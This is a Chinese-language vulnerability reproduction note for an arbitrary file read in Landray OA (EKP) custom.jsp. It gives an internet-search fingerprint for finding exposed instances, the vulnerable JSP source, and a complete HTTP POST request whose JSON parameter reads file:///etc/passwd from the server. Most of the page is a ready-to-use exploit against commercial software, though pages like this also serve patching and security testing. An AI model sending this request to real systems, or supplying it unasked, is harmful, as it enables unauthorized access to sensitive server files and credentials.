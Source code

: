 # 蓝凌OA custom.jsp 任意文件读取漏洞

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件为 custom.jsp

```plain
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
<%
 JSONObject vara =
JSONObject.fromObject(request.getParameter("var"));
 JSONObject body = JSONObject.fromObject(vara.get("body"));
%>
<c:import url='<%=body.getString("file") %>'>
 <c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
```

请求包为

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/lanling-2.png)